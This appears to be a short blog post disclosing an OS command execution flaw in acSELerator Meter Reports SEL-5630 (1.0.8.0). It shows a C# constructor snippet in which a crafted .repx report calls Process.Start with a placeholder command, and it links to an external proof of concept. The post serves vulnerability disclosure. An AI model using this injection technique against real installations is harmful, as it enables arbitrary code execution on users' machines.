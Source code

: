 ```yaml
---
layout: post
title: acSELerator Meter Reports SEL-5630
date: 2019-12-20
excerpt: "."
tags: [exploit]
comments: false
---
```

## acSELerator Meter Reports SEL-5630 (1.0.8.0) OS Command Execution
When a report is parsed, various .Net Assemblies are loaded. A
specially crafted .repx file can abuse the "System.Diagnostics" namespace
and execute arbitrary os commands in the context of the user loading the
report.
```
       public SERReport() {
            System.Diagnostics.Process.Start("OS_COMMAND_HERE"); // thanks!
            this._resourceString = DevExpress.XtraReports.Serialization.XRResourceManager.GetResourceFor("XtraReportSerialization.SERReport");
            this.InitializeComponent();
        }
```
a POC and more can be found here.
[SEL-5630](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-5630)

